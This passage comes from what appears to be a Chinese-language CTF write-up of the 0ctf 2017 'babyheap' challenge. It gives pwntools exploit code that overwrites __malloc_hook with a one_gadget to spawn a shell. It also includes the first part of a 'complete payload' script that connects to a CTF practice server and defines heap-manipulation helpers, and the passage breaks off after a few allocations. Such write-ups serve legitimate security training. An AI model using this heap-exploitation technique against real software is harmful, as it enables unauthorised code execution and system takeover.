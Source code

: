 接着将 malloc_hook 改为 one_gadget，这样我们在 malloc 的时候就能够获取 shell 了

```python
alloc(0x60)
alloc(0x60)
 
payload = p8(0) * 3 + p64(0) * 2 + p64(libc_base + 0x4526a)

fill(6, payload)
 
alloc(255)

gdb.attach(p)
```

完整 payload：

```python
from pwn import *
import sys

 
elf = ELF("./babyheap_0ctf_2017")
libc = ELF("./libc-2.23.so")
p = remote('node5.buuoj.cn',27132)

def alloc(size):
    p.recvuntil("Command: ")
    p.sendline("1")
    p.recvuntil("Size: ")
    p.sendline(str(size))


def fill(idx, content):
    p.recvuntil("Command: ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Size: ")
    p.sendline(str(len(content)))
    p.recvuntil("Content: ")
    p.send(content)
 
 
def free(idx):
    p.recvuntil("Command: ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
 
 
def dump(idx):
    p.recvuntil("Command: ")
    p.sendline("4")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvline()
    return p.recvline()
 
 
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x80)
```